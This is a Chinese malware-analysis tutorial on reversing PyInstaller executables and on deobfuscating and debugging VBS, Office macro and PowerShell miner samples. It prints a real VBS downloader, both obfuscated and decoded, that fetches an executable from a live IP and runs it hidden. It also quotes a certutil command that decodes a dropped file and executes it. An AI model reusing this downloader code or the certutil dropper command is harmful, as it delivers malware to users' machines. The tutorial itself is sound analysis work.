[TOC]

# 前言

恶意代码分析的工作往往需要掌握各种类型的文件分析技巧。在这里写一篇总结性的文章，分享一下各个类型的恶意样本的分析方法，如果错误还望指正。前方内容较多，请准备好花生瓜子

# python样本分析

对于python打包的exe，如何反编译得到源码成了最关键的问题。那么我们首先来将一个py文件打包成exe，了解一下这个过程和python打包的exe的特征

## 打包一个hello world

首先安装python2.7，记得添加环境变量。然后安装用于打包exe的pyinstaller模块，用下面一条命令：

`pip install pyinstaller -i https://pypi.douban.com/simple`

后面的网址是豆瓣的镜像源，由于这个模块关联的python模块较多，使用这个镜像源会比正常安装模块要安全，看到下面的提示代表安装成功。



pyinstaller基本用法，常用的可选参数如下：

- --onefile 将结果打包成一个可执行文件
- --onedir 将所有结果打包到一个文件夹中，该文件夹包括一个可执行文件和可执行文件执行时需要的依赖文件（默认）
- --paths=DIR 设置导入路径
- --distpath=DIR 设置将打包的结果文件放置的路径
- --specpath=DIR 设置将spec文件放置的路径
- --windowed 使用windows子系统执行，不会打开命令行（只对windows有效）
- --nowindowed 使用控制台子系统执行（默认）（只对windows有效）
- --icon=<FILE.ICO> 将file.ico添加为可执行文件的资源(只对windows有效）

然后新建一个记事本，写上hello world，将后缀名改为.py即可



然后按住shift加鼠标右键，在此处打开命令窗口，输入下面一条命令:

`pyinstaller --onefile --nowindowed hello.py`



在当前文件下生成了build文件夹、dist文件夹和.spec文件

- .spec文件是配置规范文件
- build里存放将被打包的文件 exe文件就存放在dist文件夹下
- `__pycache__`是pyc文件

### 关于python文件

#### 什么是pyc文件

pyc是一种二进制文件，是由py文件经过编译后，生成的文件，是一种byte code，py文件变成pyc文件后，加载的速度有所提高，而且pyc是一种跨平台的字节码，是由python的虚拟机来执行的，这个是类似于JAVA或者.NET的虚拟机的概念。pyc的内容，是跟python的版本相关的，不同版本编译后的pyc文件是不同的，2.5编译的pyc文件，2.4版本的 python是无法执行的。

#### 什么是pyo文件

pyo是优化编译后的程序 python -O 源文件即可将源程序编译为pyo文件  

#### 什么是pyd文件

pyd是python的动态链接库。 

#### 为什么需要pyc文件

这个需求太明显了，因为py文件是可以直接看到源码的，如果你是开发商业软件的话，不可能把源码也泄漏出去吧？所以就需要编译为pyc后，再发布出去。当然，pyc文件也是可以反编译的，不同版本编译后的pyc文件是不同的，根据python源码中提供的opcode，可以根据pyc文件反编译出 py文件源码，网上可以找到一个反编译python2.3版本的pyc文件的工具，不过该工具从python2.4开始就要收费了，如果需要反编译出新版本的pyc文件的话，就需要自己动手了（俺暂时还没这能力^--^）,不过你可以自己修改python的源代码中的opcode文件，重新编译 python，从而防止不法分子的破解。

### 关于打包的exe位数

如果你想打包为32位的程序，那么请在32位的windows环境下进行打包。如果你想打包为64位的程序，那么请在64位的windows环境下进行打包。具体是为什么这个我也不知道，只是我个人的发现

### python打包exe程序的特征

既然python能够打包成exe，那么我们首要的问题就是怎么去辨别python打包exe程序，总结有如下几个特征

#### 图标特征



用pyintaller打包的exe，在没有指定图标的情况下默认的图标都是这一个，包括驱动人生的那几个木马，都是这样的图标，辨识度可以说是很高了。但是这个特征是可以被避免的，仅供参考

#### 字符串特征

以我们编译的hello world为例，查看一下这个程序的字符串




你会看到`__main__`和`__file__`以及一堆以py开头的函数。明明只写了一个hello world，为什么会有这么多字符串呢？这是因为python是个解释型语言，pyinstaller打包的时候实际上是将python的解释器和py文件一起打包成了一个exe。所以这个字符串特征几乎是不可避免的

#### 入口特征


我们可以记住第一个函数的入口特征



第一个函数的else分支里连续调用了四个系统函数，当然这是32位的py程序的特征。

#### 编译器特征



可以看到hello.exe的编译器为VS14.0，这是因为python是基于VS14版本的，这也可以作为一个辨识的特征

## 反编译hello world

接下来我们将这个hello world的exe反编译成python源码，这需要两个步骤，首先由exe获取pyc文件，再由pyc获取py文件。

反编译python生成的exe需要用到pyinstaller库里的archive_viewer.py脚本。archive_viewer.py一共有四个可用命令：

```
U: go Up one level
O <name>: open embedded archive name
X <name>: extract name
Q: quit
```

### 由exe获取pyc

首先找到`archive_viewer.py`这个脚本的路径，可以参考下我的路径

`C:\Python27\Lib\site-packages\PyInstaller\utils\cliutils`

然后在此处打开命令窗口，输入下面一条命令对可执行程序进行解包分析：

 ` python archive_viewer.py C:\hello.exe`



除了其余的几个系统模块之外，重点关注中间的主程序，使用下面一条命令提取主程序的pyc文件

`x hello`



由于用pyinstaller打包后，pyc文件的前8个字节会被抹掉，所以最后要自己添加回去。前四个字节为python编译的版本，后四个字节为时间戳，时间戳可以任意，编译器版本python2.7 为03 f3 0d 0a，python3.4 为ee 0c 0d 0a 



### 由pyc获取py

最后使用easy python decompiler这个软件(我会在文章末尾附上所有相关文件的下载)从pyc文件得到py文件，直接将pyc文件拖拽进程序：



生成的文件就是我们之前写的代码



用同样的方法可以反编译驱动人生木马的python模块。反编译之后，就能直接看到python源码。

## python代码混淆的解决方案

python代码的混淆相对会比较简单，只是单纯利用宏替换的原理修改变量和函数名，这个网站是目前用的最多的python代码混淆工具：<http://pyob.oxyry.com/>，

### python代码的混淆原理



这个是该网站的在线混淆页面，上面显示了一个示例，左边是未经过混淆的代码，右边是混淆后的代码。你会发现除了变量名被换掉了之外几乎没有任何改变。

### 实战去除python代码混淆

接下来我们来实战去除python代码的混淆，以驱动人生的python模块为例，下面是反编译后经过一次解密的python代码:



这个可读性可以说是相当的差了，但是直接拉到函数开头会发现这样一段代码



没错，就是单纯的给每个关键字都起了一个别名而已



直接利用notepad++的查找替换，记得勾上匹配大小写，就能去掉混淆，去除后代码如下：



除了自定义的函数名无法还原之外，代码逻辑都变得清晰可见了

# vbs样本分析

## vbs病毒介绍

VBS病毒是用VB Script编写的，它利用Windows系统的开放性，通过调用现有的Windows对象、组件，程序可以直接控制文件、系统、注册表，功能非常强大。VBS脚本病毒通常的传播方式有：通过Email附件、IRC聊天通道、局域网共享传播，还可以通过感染htm、jsp、php 、asp等网页文件传播，传播范围比较广泛，它的变种多，迷惑性很强，所以电脑如果中了这种病毒就会很麻烦。

vbs类的病毒如何动态调试是个很大的问题，微软的地表最强IDE Visual Studio就能做到这一点。

## 用VS调试vbs脚本

### 设置VS调试器

首先用管理员方式启动VS，接着选择调试->选项，把脚本前面的勾给打上


这一步需要具有管理员权限才能成功

### 启动调试器

命令行输入wscript /X 要调试vbs脚本的路径


WScript.exe命令说明

`WScript.exe [vbs文件全路径] [参数1] [参数2] [...] [参数n] //D //`

参数说明：

- //D 打开调试程序
- //X 在调试程序中启动该程序
- //? 可以使用该参数查看WScript.exe的所有参数及说明

或者用cmd敲上这条命令也可以打开调试器

`cscript.exe /x C:\Users\GuiShou\Desktop\1.vbs`


### 开始调试

然后你就可以开始用VS来调试vbs脚本了，可以看堆栈 看内存，看局部变量。


## vbs病毒混淆解决方案

vbs病毒最严重的就是混淆了， 不管怎么混淆，大致都能用以下两种解决方案

1. 如果能直接打印或输出到文件则不需要关注语法，直接将结果打印
2. 如果不能直接看到结果则根据函数及参数含义弄清混淆原理之后手动将混淆结果替换

### 混淆病毒实战分析

**样本来源：**<https://www.52pojie.cn/thread-111170-1-1.html>



吾爱上面找的一个样本，评论区虽然有分析结果，但是并没有解密过程，贴上代码

```vbs
on error resume next
set oshell = wscript.createobject (Chr(87)+Chr(115)+Chr(99)+Chr(114)+Chr(105)+Chr(112)+Chr(116)+Chr(46)+Chr(115)+Chr(104)+Chr(101)+Chr(108)+Chr(108))
Set xPost = CreateObject(Chr(77)+Chr(105)+Chr(99)+Chr(114)+Chr(111)+Chr(115)+Chr(111)+Chr(102)+Chr(116)+Chr(46)+Chr(88)+Chr(77)+Chr(76)+Chr(72)+Chr(84)+Chr(84)+Chr(80))
xPost.Open Chr(71)+Chr(69)+Chr(84),Chr(104)+Chr(116)+Chr(116)+Chr(112)+Chr(58)+Chr(47)+Chr(47)+"222.73.45.135:19999/rc/zj/gx"+Chr(46)+Chr(106)+Chr(112)+Chr(103),Chr(48)
xPost.Send()
Set sGet = CreateObject(Chr(65)+Chr(68)+Chr(79)+Chr(68)+Chr(66)+Chr(46)+Chr(83)+Chr(116)+Chr(114)+Chr(101)+Chr(97)+Chr(109))
sGet.Mode = Chr(51)
sGet.Type = Chr(49)
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "ccom"+Chr(46)+Chr(101)+Chr(120)+Chr(101),Chr(50)
oshell.RUN "ccom"+Chr(46)+Chr(101)+Chr(120)+Chr(101),vbhide
```

这个样本实际上的利用了Chr函数的特性来混淆分析者，我们可疑拷贝第一句vbs代码，然后修改为下图



直接将混淆的代码弹出，改后缀为vbs，运行



就能直接看到未被混淆的代码，利用这种方法可以轻松解密整个文件，解密后代码如下：

```vbs
on error resume next
set oshell = wscript.createobject (Wscript.shell)
Set xPost = CreateObject(Microsoft.XMLHTTP)
xPost.Open GET,http://222.73.45.135:19999/rc/zj/gx.jpg,0
xPost.Send()
Set sGet = CreateObject(ADODB.Stream)
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "ccom.exe",2
oshell.RUN "ccom.exe",vbhide
```

可以看到这实际上是一个下载者，目的是从网页中下载一个exe。

这个是最简单的混淆，实际上vbs代码的混淆还会用到很多函数，比如replace()，split()等等，但是只要了解函数及其参数的含义，并把结果输出，就能解决大部分的混淆代码。

## vbs病毒实战分析

### 样本来源

下面我们实际分析一个vbs样本，样本来源自吾爱破解：<https://www.52pojie.cn/thread-80139-1-1.html>，已经有大神分析过了，我就偷个懒，跟着大佬的结果分析吧


### 实战分析



首先创建FSO对象，初始化随机数



定义变量temp为随机数名字



循环遍历，windows文件夹，system文件夹，temp文件夹，得到这三个文件夹的路径，自我复制到这三个特殊文件夹下

GetSpecialFolder方法参数如下：





创建shell对象 写入注册表启动项和开机启动项，修改开机登录窗口内容



打开自身，读取所有内容，创建drives对象，调用scan函数遍历并扫描所有磁盘，scan函数代码如下：



scan函数会遍历所有的.txt文件，将病毒自身的代码覆盖掉原txt文件，然后添加文件后缀.vbs，感染前和感染后文件如图：



最后获取自身路径，进行自删除操作



# 宏病毒样本分析

## 基础理论

### 什么是宏

宏（macro），就是软件设计者为了在使用软件工作时，避免一再的重复相同的动作而设计出来的一种工具。它利用简单的语法，把常用的动作写成宏，当再工作时，就可以直接利用事先写好的宏自动运行，去完成某项特定的任务，而不必再重复相同的动作。

### 什么是宏病毒

宏病毒是一种寄存在文档或模板的宏中的计算机病毒。一旦打开这样的文档，其中的宏就会被执行，于是宏病毒就会被激活，转移到计算机上，并驻留在Normal模板上。从此以后，所有自动保存的文档都会“感染”上这种宏病毒，而且如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。

### 宏病毒的特性

宏病毒具有自动执行的特性，特别是含有AutoOpen的宏，一旦用户打开含有宏的文档，其中的宏就会被执行，而用户一无所知

### 宏语言

宏语言即VISUAL BASIC FOR APPLICATION，简称VBA。VBA可以访问许多操作系统函数并支持文档打开时自动执行宏——这使得用这种语言写计算机病毒成为可能

### 数据文件格式

- .doc—一种可以存贮云的普通文档；.docx—一种不包含宏的普通文档；
- .docm——一种包含宏或启用了宏的文档；
- .dotx——一种不包含宏的模板；
- .dotm———种包含宏或启用了宏的模板。

### 常用的宏



## 手工构造一个宏文档

接下来我们来手工构造一个带有宏的文档，具体步骤如下：

1. 新建一个docx文档(我的版本是Office2013)


2. 按Alt+F11，打开宏代码编辑器，然后填入下面的代码



### 给宏文档添加密码

接下来我们来给这个宏代码添加密码，点击工具->Project属性



选择保护，勾选查看时锁定工程，输入密码123，点击确定,



保存编辑好的文档，



选择否，另存为带有宏的docm



再次打开docm文档，弹出消息框



**这个就是宏病毒的自动执行特性，当点击启用宏时，AutoOpen函数的代码就会自动执行**

再次查看宏代码，发现需要输入密码



### 绕过宏密码

接下来我们利用一款工具VBA_Password_Bypasser绕过宏设置的密码(需要注册才能绕过宏密码)，



点击Open打开目标文档，再次打开宏代码编辑器



发现宏代码一览无余

## 宏病毒分析方法

以这次的目标样本为例讲述宏病毒的分析方法，样本来源

<https://bbs.kafan.cn/thread-2041648-1-1.html>


随便在卡饭找的一个样本，大家可以自行下载，也可以在文章末尾我提供的链接下载

### 静态分析

oledump.py是一个用于分析OLE文件（复合文件二进制格式）的程序，我们可以使用它提取文档中的宏代码。接下来我们简单介绍一下oledump的使用，我们以invoice_62891.doc为例进行介绍：

要使用oledump必须先安装olefile模块



然后在此处打开命令行，输入下面这条命令

`oledump.py invoice_62891.doc ` 



这是oledump对doc文件的最基础的分析，显示了这个文件的Stream数据，一共包含5段，其中字母‘M’，表示这段数据中含有VBA宏(Macro）

oledump.py有许多参数可以选择，使用oledump.py -m 可以查看oledump.py 的帮助信息，这里我们要用到的参数
是-s和-v

-s 段号：选择上分析出的某一段来查看内容

-v ：解压缩VBA宏

上面两个参数结合起来用就可以找出宏源码：
`oledump.py -s 7 -v invoice_62891.doc `



可以看到宏代码被解析出来了。在实际分析时，-s后的参数可以选择a，表示分析所有段的数据，还可以使用‘>’符号
将宏代码数据存储在新文件中,比如

`oledump.py -s a -v invoice_62891.doc>1.txt`



这样就能把宏代码输出到文件了，即使这个文档是带有密码的



### 动态调试

接下来说明如何在office自带的宏代码编辑器中调试宏代码

### 设置断点

按快捷键F9或者在左侧单击可以为当前行设置断点


### 清除所有断点

按快捷键Ctrl+Shit+F9可以清除所有断点

### 控制执行流程

- 单步步入 F8
- 单步步过 Shift+F8
- 跳出 Ctrl+Shift+F8
- 运行到光标处 Ctrl+F8
- 运行 F5

### 查看变量

在当前行单击鼠标右键，添加监视，可以查看变量




### 搜索指定内容

按Ctrl+F可以选择在当前模块或者过程查找指定内容



## 宏代码混淆解决方案

被混淆的宏代码其实有一种非常取巧的解决方案，纯粹的宏能做到事情实际上是有限的，大多数的宏病毒都是通过解密或下载一个恶意的PE文件，从而利用PE来完成最终的目的。而下载或解密都是通过Shell、WScript.Shell、Application.Run等方式。我们可以直接搜索这些字符串，定位到关键代码的位置。

以这一次的目标样本为例，直接打开文档 按Alt+F11打开宏编辑器，这个病毒同样是有宏密码保护的，怎么绕过去相比大家已经会了吧？


打开之后直接搜索Shell字符，在当前行下断点，F5运行



接下来将变量添加到监视



你会发现病毒调用shell执行一条cmd命令，这个cmd命令就是这个宏病毒的最终目的了，从另一个角度来看，这不仅是一种去混淆的方法，也是一种偷懒的方法

## 实战分析宏病毒

接下来分析真正分析这个宏病毒，在AutoOpen函数下断 按F5运行



F8单步跟踪，



在跟踪的过程可以右键把表达式添加到监视



一直往下跟踪，你会发现所有的操作都是在拼接字符串，虽然说变量名是经过混淆的，但这丝毫不影响我们的分析



一直单步到这一句的时候，重点来了，通过变量的字符串拼接，程序创建了一个文件系统对象



然后用文件系统对象创建文件 路径为`"C:\Users\GuiShou\AppData\Local\Temp\microsoft.pfx"`，参数True表示覆盖原文件



接下来将这一段看上去似乎乱码的字符串写入到文件



然后拼接一个字符串，我们不需要关心每一部分是什么，只需要将变量添加监视就能直接看到拼接的最终结果



然后调用shell执行这条命令



`"cmd /c certutil -decode %TMP%\\microsoft.pfx %TMP%\\microsoft.exe & start %TMP%\\microsoft.exe"`

这条命令的含义是调用cmd命令先将Temp目录下的microsoft.pfx文件解密，然后运行microsoft.exe

那么我们先将截取这条命令的前半部分将病毒写入的这个文件进行解密，调用下面这条命令将解密后的文件输出



直接打开解密后的1.txt，MZ开头 很明显这是个PE文件了



那么这个宏病毒的最终目的已经很明显了 输出一个加密的exe文件，利用cmd将其解密后执行



宏病毒的部分已经分析完成了。至于exe的恶意程序不在本节讨论范围之内

# powershell病毒分析

## powershell简介

Powershell 是运行在windows机器上实现系统和应用程序管理自动化的命令行脚本环境。你可以把它看成是命令行提示符cmd.exe的扩充，不对，应当是颠覆。 powershell需要.NET环境的支持，同时支持.NET对象。微软之所以将Powershell 定位为Power，并不是夸大其词，因为它完全支持对象。其可读性，易用性，可以位居当前所有shell之首

PowerShell功能十分强大。它旨在从命令行自动执行任务并解决配置管理的问题，由此创建了许多重要工具。PowerShell有很多优点：例如易于导入模块，能够访问核心API和远程命令，也正是由于这些优点使其成为攻击者执行无文件攻击的首选工具之一。使用本地或预先安装的工具来进行攻击已经越来越受欢迎，至少部分是由于基于文件的AV系统（例如ML引擎）的进步以检测从未见过的攻击。

## 如何调试PowerShell 脚本



在运行窗口输入`powershell ISE`打开IDE窗口，随便打开一个PS脚本

### IDE界面

首先来介绍一下这个界面



如图所示： IDE环境被分成了三个窗格，这个窗格的布局可以自定义。

- 左上角是脚本窗格，会显示当前打开的脚本的代码；
- 左下角的窗口是交互窗格，也叫做命令窗格，可以在里面输入要执行的命令，同时这个窗格还会提示当前的工作路径；
- 右边是命令窗格，到目前为止我还没发现对调试有什么帮助

### 管理断点

在 Windows PowerShell 调试环境中设置三种类型的断点：

1. 行断点 在脚本运行期间，当达到所指定的行时，脚本暂停
2. 变量断点。 每当指定变量的值发生变化时，脚本就会暂停。
3. 命令断点。 在脚本运行期间，每当要运行指定命令时，脚本暂停。 它可以包括参数，以便仅对所需操作进一步筛选断点。 该命令还可以是你创建的函数。

只有行断点可以通过使用菜单或键盘快捷方式进行设置。 可以设置其他两种类型的断点，但应通过使用 Set-PSBreakpoint cmdlet 从控制台窗格中进行设置。

#### 设置断点

**设置行断点：**右键单击你想要设置行断点的行，然后单击“切换断点，或者直接用快捷键F9



**设置变量断点：**

示例：

```powershell
# This command sets a breakpoint on the Server variable in the Sample.ps1 script.
Set-PSBreakpoint -Script sample.ps1 -Variable Server
```

#### 列出所有断点

在“调试”菜单上，单击“列出断点”，或者在控制台输入这条命令`Get-PSBreakpoint`



#### 移除所有断点

若要移除在当前会话中定义的所有断点，在“调试”菜单上，单击“删除所有断点”



#### 禁用所有断点

 若要禁用在当前会话中的所有断点，在“调试”菜单上，单击“禁用所有断点”，或者在控制台输入这条命令`Get-PSBreakpoint | Disable-PSBreakpoint`



### 管理调试会话

#### 启动调试

按 F5 或在工具栏上，单击“运行脚本”图标，或在“调试”菜单上，单击“运行/继续”。 脚本将一直运行，直到它遇到第一个断点。 它将在此处暂停操作，并突出显示它暂停时所在的行。

#### 继续调试

按 F5 或在工具栏上，单击“运行脚本”图标，或在“调试”菜单上，单击“运行/继续”或在控制台窗格中，键入 C，然后按 ENTER。 这将导致脚本继续运行到下一个断点，或如果接下来没有遇到任何断点的话运行到脚本的末尾。

#### 查看调用堆栈

若要查看当前调用堆栈，请按 CTRL+SHIFT+D，或在“调试”菜单上，单击“显示调用堆栈”，在控制台窗格中，键入 K，然后按 ENTER。



#### 停止调试

按 SHIFT-F5，或在“调试”菜单上，单击“停止调试器”，或者，在控制台窗格中，键入 Q，然后按 ENTER。



### 如何单步

- F10 单步步过
- F11 单步步入
- Shift+F11 跳出
- F5 运行

### 如何显示变量的值

powershell是没有监视窗口的，那么如何查看某个变量的值呢？有两个方法：

1. 在脚本窗格中，将鼠标悬停在变量上，会自动显示变量的值
2. 在控制台窗格中，键入变量的名称并按回车键

## Powershell代码混淆解决方案

### 常见的混淆方法

对于PowerShell而言，以下是一些常见的混淆方法：



还有更复杂的混淆方法，如变量创建和替换。混淆器将随机变量定义为字符串的全部或部分，并通过文件在该字符串的位置插入/替换它的地方。 有许多方法可以实现替换。以下是几个例子：

**格式化操作符**

``{``1``}PSScriptRoot{``0``}..{``0``}PSVersionCompare.psd1 ``-``F  ‘\’,’$’`

**函数替换**

```
`(pZyPSScriptRoot\Add``-``LTUser.ps1).replace(``'pZy'``,’$’)`
```

跟vbs去混淆的方法一样，了解函数及参数解释，结合echo打印函数，了解混淆原理，再反混淆就没有任何问题了。这里就不再举例了。

## 实战分析一个PowerShell挖矿病毒

### 样本来源

 接下来我们来实战分析一个powershell病毒，样本来源还是卡饭

<https://bbs.kafan.cn/thread-2119454-1-1.html>



我们来分析其中一个样本



### 实战分析

在第一行F9下断点，然后F5运行，程序断下





首先初始化了三个变量和一个对象，变量的值我们可以在控制窗口看到



接着调用DownloadFile方法从一个服务器地址下载一个exe到Temp目录下



接着自我复制到User目录下



接着将Temp目录下的yam文件再次拷贝一份 重命名为xe.exe



然后创建并删除计划任务



接着调用cmd命令对抗杀软



然后启动Temp目录下的xe.exe开始挖矿，后面的参数是矿池的启动参数

到此 这个powershell病毒就分析完成了

最后，附上相关文件 样本和工具 大家可以到我的Github下载，另外我会提供一份文章的pdf版，有需要的可以下载

<https://github.com/TonyChen56/Virus-Analysis>

# 参考资料

  如何在 Windows PowerShell ISE 中调试脚本：<https://docs.microsoft.com/zh-cn/powershell/scripting/components/ise/how-to-debug-scripts-in-windows-powershell-ise?view=powershell-6>

反编译python打包的exe文件：https://www.cnblogs.com/QKSword/p/10540431.html

宏病毒研究1——基础理论篇 ：<https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=35161&extra=page%3D1%26filter%3Dtypeid%26typeid%3D79>

Powershell 代码反混淆技术研究：<https://bbs.pediy.com/thread-248034.htm

